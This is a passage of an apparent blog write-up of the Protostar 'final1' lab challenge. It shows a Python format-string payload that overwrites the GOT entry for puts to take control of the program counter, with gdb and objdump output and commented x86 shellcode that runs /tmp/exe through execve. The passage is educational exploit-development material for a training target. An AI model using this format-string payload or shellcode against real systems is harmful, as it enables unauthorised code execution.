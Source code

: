 In the mysterious case of final1, where the initial crash occurred in the
shared library function printf, or `__IO_vfprintf_interal` specifically; 
If we're working with a core-file and want to take a look at code from
a shared library; entering the `sharedlibrary` command makes sure that 
the relevant code is loaded for us to examine.

### Achievement Unlocked: Control over program counter!

I achieved control over the program-counter by running the following
piece of python code.

{% highlight python %}
s.send("username "+\
       " \x94\xa1\x04\x08\x95\xa1\x04\x08\x96\xa1\x04\x08\x97\xa1\x04\x08"+\
       "%15$n" +\
       "%16$n" +\
       "%17$n" +\
       "%18$n" +\
       chr(0xa))
s.send("login"+(chr(0xa)))
{% endhighlight %}

~~~ 
(gdb) x/i $eip
0x30303030:		Cannot access memory at address 0x30303030
~~~

I overwrote the entry for `puts` in the global offset table with 0x30. 

~~~
$ objdump -R /opt/protostar/bin/final1 | grep puts
0804a194 R_386_JUMP_SLOT   puts
~~~

There are still two things to be done.

#### 1. Write some shellcode that will do `$what_we_want`
{% highlight nasm %}
; Uncomment the following two lines if you want to compile this shellcode into a executable.
; global _start
; _start:
xor eax,eax      ; eax = 0
push eax         ; push nullbyte onto the stack
push 0x6578652f  ; push '/exe' onto the stack
push 0x706d742f  ; push '/tmp' onto the stack
; If we instead would write 'mov eax, 11', nasm would produce bytecode with nullbytes.
; Because the code would move 0x0000000b into eax. We already nulled the rest of eax,
; so we're good to go.
mov al, 11       ; specify execve systemcall
mov ebx, esp     ; Address of the string which contains our command should be in ebx
; Much like the previous shellcode we wrote;
;  ecx & edx should contain pointers to enviroment-variables &
;  arguments to be passed into the function. We do not give a hoot
;  about these things though. So we just pass nulls
xor ecx, ecx
xor edx, edx
int 0x80         ; call kernel
xor eax,eax      ; null out eax
mov al, 1        ; specify exit systemcall
int 0x80         ; call kernel
{% endhighlight %}
